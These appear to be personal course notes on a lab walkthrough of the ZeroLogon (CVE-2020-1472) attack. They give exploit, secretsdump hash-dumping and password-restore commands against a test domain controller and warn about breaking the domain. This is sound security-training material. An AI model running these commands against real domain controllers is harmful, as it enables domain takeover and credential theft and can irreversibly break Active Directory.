




# Abusing ZeroLogon

**ZeroLogon** was discovered in 2020. It is a very dangerous attack to run
since it bears the risk of completely destroying the domain. The attack is
setting the password of the domain controller to `NULL` to take over the
domain. If the password is not restored to its original value at the end of the
attack, the domain will be destroyed. The video therefore shows how to attack
the server, but also how to restore its state again, so that we do not break
it.

We install the exploit from the [github repo](https://github.com/dirkjanm/CVE-2020-1472).
TCM has installed it in the `/opt` folder with `mkdir CVE-2020-1472` and `git
clone`. He has also added a tester for the vulnerability in the same folder,
also `git clone` from its [github repo](https://github.com/SecuraBV/CVE-2020-1472).

In my test environment, the `zerologon_tester.py` script indicated that the
domain controller was not vulnerable to the attack, whereas it detected a
vulnerability in TCM's video.

```
┌──(kali㉿kali)-[/opt/CVE-2020-1472/SecuraBV]
└─$ python3 zerologon_tester.py HYDRA-DC 10.0.2.15
Performing authentication attempts...
================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================
Attack failed. Target is probably patched.
```



On a real assessment, we should perhaps rather stop here and do not run the
attack due to the risk of irrevocably breaking the domain. Instead, we should
inform the responsible system admins that they need to patch the vulnerability.
(TCM would not allow a pentester to run this attack against his own company.)

**Just following TCM's video from hereon...**

The exploit from dirkjanm's repo can be run with `python3
cve-2020-1472-exploit.py HYDRA-DC 10.0.2.15`. It will return `Exploit
complete!` if it has successfully set the domain admin password to an empty
string.



To test whether the attack was successful, we can run `secretsdump.py` against
the domain controller now with `secretsdump.py -just-dc
MARVEL/HYDRA-DC\$@10.0.2.15` and get a dump of the password hashes of all
accounts on the domain controller, including `krbtgt`, which allows us to get a
Golden Ticket and run `psexec.exe`, i.e. we own the domain controller, just by
running the `cve-2020-1472-exploit.py` script.



To avoid permanent damage to our test environment, we now need to reset the
password to its original value. To this end, we copy the `NTLM` hash of the
`Administrator` account from the `secretsdump.py` output and run the command
`secretsdump.py Administrator@10.0.2.15 -hashes <NTLM hash>`. We search for
**plain password hex** in the output and copy the hex value, ignoring Python
error messages in the output.



To restore the password on the domain controller, we run `python3
restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 10.0.2.15 -hexpass
<plain password hex>`. The password reset is confirmed with `Change password
OK`.


### Further reading

* [What is ZeroLogon?](https://www.trendmicro.com/en_us/what-is/zerologon.html)
* [Whitepaper ZeroLogon](https://cybersecurity.bureauveritas.com/uploads/whitepapers/Zerologon.pdf)
* [Zerologon Exploit Attack](https://www.netwrix.com/zerologon_attack.html)
* [Zerologon (Wikipedia)](https://en.wikipedia.org/wiki/Zerologon)
* [Zerologon?? Easy Way To Take Over Active Directory
  (Exploitation)](https://medium.com/fmisec/zerologon-easy-way-to-take-over-active-directory-exploitation-c4b38c63a915)
* [Zerologon Vulnerability: Analysis and Detection Tools](https://www.cynet.com/attack-techniques-hands-on/zerologin-vulnerability-analysis-and-detection-tools/)


<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
